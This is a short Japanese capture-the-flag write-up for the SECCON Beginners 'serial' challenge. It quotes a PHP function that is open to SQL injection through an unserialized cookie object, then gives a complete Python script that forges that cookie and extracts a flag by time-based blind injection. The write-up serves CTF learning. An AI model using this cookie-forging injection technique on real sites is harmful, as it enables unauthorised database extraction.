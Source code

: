 ### serial
html/database.phpにあからさまなSQL injectionがある。
```php
public function findUserByName($user = null)
    {
        if (!isset($user->name)) {
            throw new Exception('invalid user name: ' . $user->user);
        }

        $sql = "SELECT id, name, password_hash FROM users WHERE name = '" . $user->name . "' LIMIT 1";
	$result = $this->_con->query($sql);
```

認証を検証する関数loginとかで呼ばれており、cookieの\_\_CREDにセットされたPHPオブジェクトを
unseriarizeしてsql文に挿入される。

以下はtime basedでflagテーブルからflagを抜き取るコード
別にtime basedである必要はない

```python
#!/usr/bin/python3

import base64
import urllib.parse
import requests
import string

url = b"https://serial.quals.beginners.seccon.jp/"
c_array = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}0123456789!$-.<=>?@_*"

if __name__ == '__main__':
    flag = 'ctf4b{'
    i = 7 
    while '}' not in flag:
        for c in c_array:
            #sql = "test' union select if(1=1,(sleep(5),'1','1'),(1,'1','1')) -- '"
            sql = "test' union select (select if(substring(body,{},1)='{}',sleep(5),1) from flags),'1','1' -- '".format(i,c)
            serial = "O:4:\"User\":3:{s:2:\"id\";s:1:\"1\";s:4:\"name\";s:"
            serial += str(len(sql))
            serial += ":\""
            serial += sql
            serial += "\";s:13:\"password_hash\";s:60:\"$2y$10$4XgUYL3zRJd6Ft4bzfsjBe8SKRm1XrXXbD6TssbeNHinhgfyFAJfC\";}"
            my_cookie = {"__CRED": base64.b64encode(serial.encode()).decode("utf-8")}
            try:
                res = requests.get(url, cookies=my_cookie, timeout=3)
            except Exception as e:
                flag += c
                break
            if c == '*':
                print(flag)
                exit(1)
        print("flag:" + flag)    
        i+=1
```
